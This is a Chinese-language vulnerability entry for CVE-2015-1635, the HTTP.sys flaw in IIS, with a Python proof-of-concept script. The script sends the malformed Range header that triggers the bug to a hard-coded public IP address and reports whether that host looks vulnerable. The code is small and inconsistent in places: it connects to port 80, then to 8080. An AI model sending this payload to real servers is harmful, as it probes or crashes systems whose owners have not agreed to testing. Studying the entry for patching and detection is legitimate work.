 # CVE-2015-1635 #
## 受影响版本 ##
Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2
## 平台 ##
windows
## 测试系统 ##
windows
## 类型 ##
远程
## 描述 ##
利用HTTP.sys的安全漏洞，攻击者只需要发送恶意的http请求数据包，就可能远程读取IIS服务器的内存数据，或使服务器系统蓝屏崩溃。
## POC ##
<pre class="prettyprit lang-javascript">
import socket
import random
ipAddr = &quot;218.83.157.3&quot;
hexAllFfff = &quot;18446744073709551615&quot;
req1 = &quot;GET / HTTP/1.0\r\n\r\n&quot;
req = &quot;GET / HTTP/1.1\r\nHost: stuff\r\nRange: bytes=0-&quot; + hexAllFfff + &quot;\r\n\r\n&quot;
print &quot;[*] Audit Started&quot;
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req1)
boringResp = client_socket.recv(1024)
if &quot;Microsoft&quot; not in boringResp:
    print &quot;[*] Not IIS&quot;
    exit(0)
client_socket.close()
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr,8080))
client_socket.send(req)
goodResp = client_socket.recv(1024)
if &quot;Requested Range Not Satisfiable&quot; in goodResp:
    print &quot;[!!] Looks VULN&quot;
elif &quot; The request has an invalid header name&quot; in goodResp:
    print &quot;[*] Looks Patched&quot;
else:
    print &quot;[*] Unexpected response, cannot discern patch status&quot;
</pre>